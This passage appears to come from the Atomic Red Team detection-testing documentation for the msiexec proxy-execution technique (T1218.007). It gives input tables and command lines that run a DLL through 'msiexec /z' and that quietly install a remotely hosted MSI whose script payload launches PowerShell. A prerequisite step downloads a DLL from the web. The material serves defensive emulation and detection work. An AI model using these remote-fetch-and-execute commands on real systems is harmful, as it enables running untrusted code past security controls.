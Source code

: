 #### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute that has an implemented DllUnregisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /z "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The DLL must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #11 - Msiexec.exe - Execute Remote MSI file
Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI executes a built-in JScript payload that launches powershell.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 44a4bedf-ffe3-452e-bee4-6925ab125662





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | string | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /q /i "#{msi_payload}"
```






<br/>
